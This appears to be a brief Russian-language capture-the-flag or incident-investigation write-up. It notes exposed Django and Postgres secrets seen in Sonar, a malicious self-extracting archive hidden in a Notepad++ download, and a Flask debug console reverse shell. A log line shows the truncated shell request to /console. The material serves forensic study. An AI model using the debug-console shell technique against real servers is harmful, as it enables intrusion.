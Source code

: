 
<br><br>
<h2>Непрошеные гости! - 1</h2>

Зайдя на Sonar, доступный на Gitlab, мы видим две основные уязвимости: Открытый ключ от Django и пароль от Postgres.

<br><br>
<h2>Непрошеные гости! - 2</h2>

![gitlab](./img/gitlab.png)


<br><br>
<h2>Враг врага 1 - 2</h2>
Notepad++ В загрузках лежит архив np++ который содержит вредоносный самараспаковывающийся архив


<br><br>
<h2>Враг врага 2 - 1</h2>
Уязвимость в веб-приложении (Flask Debug Console REVERSE SHELL)<br>
В конце лога видна строка: 

```shell
'10.10.10.12 - - [22/Jan/2025 19:36:07] "GET /console?&__debugger__=yes&cmd=import%20socket... HTTP/1.1" 200 -'
```
